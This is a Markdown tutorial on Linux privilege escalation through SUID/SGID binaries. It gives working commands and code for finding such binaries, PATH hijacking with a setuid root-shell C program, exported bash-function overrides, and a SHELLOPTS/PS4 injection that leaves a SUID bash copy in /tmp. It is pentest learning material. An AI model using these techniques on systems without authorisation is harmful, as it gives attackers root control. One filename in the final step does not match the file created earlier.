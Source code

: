 # Privileges Escalation - Linux
# Exploiting SUID/SGID 

- [Definitions](#definitions)
- [Where are these bits?](#wherearethesebits)
- [Finding SUID/SGID executables](#Finding-SUIDSGID-executables)
- [Shared objects vulnerability](#Shared-objects-vulnerability)
- [Environment variables without full paths](#Environment-variables-without-full-paths)
- [Environment variables with full paths and vulnerable shell](#Environment-variables-with-full-paths-and-vulnerable-shell)

## Definitions
- **SUID**: **Set User ID**. When a binary has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: **Set Group ID**. When a binary has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

## Where are these bits?
If we run the `ls -l` command, this output will be shown:<br> `<Obj Type><User permissions>-<Group permissions> <Obj Owner> <Obj Group>`<br>
(`Obj Type` could be `.` if it's a file or `d` if it's a directory).<br>
So, if we have an `s` in `User permissions`, the file has the SUID bit set. <br>If we have an `s` in `Grpup permissions`, the file has the SGID bit set.

## Finding SUID/SGID executables
- `find / -type f -perm /6000`: finds binaries which have the SUID **or** SGID bit set.
- `find / -type f -perm -6000`: finds binaries which have **both** the SUID **and** SGID bit set.
- `find / -type f -perm -4000`: finds binaries which have **only** the SUID bit set.
- `find / -type f -perm -2000`: finds binaries which have **only** the SGID bit set.

Type `2>/dev/null` in the end to discard the standard error.<br>
If we look for binaries and we find an obsolete one (so vulnerable, for example `/usr/sbin/exim-4.84-3`):
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- Copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects vulnerability
Some binaries could be vulnerable to shared objects injections.
- `strace <Binary Path> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <Binary Path>` to look for readable ASCII or Unicode characters. If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`):
  - We can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <name>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <Binary Path>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). 
<br>If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <Binary Path>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies the Bash shell in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`.     













